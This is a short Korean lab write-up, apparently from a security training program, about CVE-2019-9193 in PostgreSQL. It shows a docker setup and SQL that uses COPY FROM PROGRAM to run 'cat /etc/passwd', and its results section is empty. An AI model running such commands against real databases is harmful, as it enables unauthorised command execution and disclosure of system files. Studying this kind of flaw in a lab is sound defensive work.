

# CVE-2019-9193


### 화이트햇 스쿨 3기 - [이용진](https://github.com/tteokbokki-master)

<br/>

### 정리
PostgreSQL에서는 `COPY FROM PROGRAM` 명령어를 통해 운영제체 수준의 명령을 수행할 수 있다. 이 기능은 기본적으로 슈퍼유저에게만 허용되며, PostgreSQL 10 이상에서는 슈퍼유저가 다른 사용자에게 이 기능을 명시적으로 부여할 수 있다. 이를 악용하면 공격자가 `/etc/passwd` 등의 민감한 파일을 읽거나 시스템 명령을 간접 실행할 수 있다. 

<br/>


### 환경 구성 및 실행

- `docker compose up -d`를 실행하여 테스트 환경을 실행 (postgres 10.7 버전)
- `psql -U postgres` 로 db 내 접근
- 테이블 생성 및 명령어 실행
``` 
CREATE TABLE test(content text);
COPY test FROM PROGRAM 'cat /etc/passwd';
SELECT * FROM test;
```

`COPY FROM PROGRAM`을 통해 SQL 명령어로 시스템 명령어를 실행하여, passwd 파일을 읽는 것을 확인할 수 있다.

<br/>

### 결과



<br/>
